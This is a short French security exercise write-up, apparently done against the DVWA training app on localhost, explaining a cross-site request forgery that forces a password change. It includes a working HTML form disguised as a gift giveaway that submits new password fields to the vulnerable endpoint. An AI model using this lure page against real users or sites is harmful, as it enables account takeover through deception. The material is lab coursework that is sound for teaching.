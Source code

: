 ## Exercice 7 (CSRF)

### Expliquer comment forcer un utilisateur à modifier son mot de passe ?

On se fait passer pour un site sûr avec un formulaire qui permet de récolter une
donnée. On la récupère et on l'envoie au serveur tel quel.

On a créé un exemple de page HTML pour cela :

```html
<!DOCTYPE html>
<html>
   <head>
       <meta charset="utf-8">
       <title>Message</title>
   </head>
   <body>
       <form action="http://localhost/vulnerabilities/csrf/"
           method="GET">
           <p>Partage ton pseudo avec nous pour gagner un tas de cadeau !</p>
           <input name="password_new" type="text">
           <input name="password_conf" type="text">
           <input value="Change" name="Change" type="submit">
       </form>
   </body>
</html>
```

Ainsi, si nous sommes malveillant, nous pouvons récupérer le mot de passe via
un script JavaScript et nous pouvons maintenant nous connecter sur l'application
avec les nouveaux identifiants.
